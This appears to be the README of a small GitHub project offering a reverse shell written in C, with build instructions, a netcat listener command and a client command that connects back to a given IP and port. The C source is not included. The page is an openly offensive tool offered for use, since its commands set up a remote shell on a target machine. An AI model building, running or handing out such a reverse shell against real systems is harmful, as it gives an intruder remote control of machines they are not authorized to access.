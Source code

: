 # Simple Reverse Shell
A run of the mill reverse shell written in C.

## Building
```
gcc -o reverse-shell reverse-shell.c
```

## Using
**Host machine (With netcat)**
```
nc -l -p 1337
```

**Client machine:**
```
./reverse-shell <ip> 1337
```
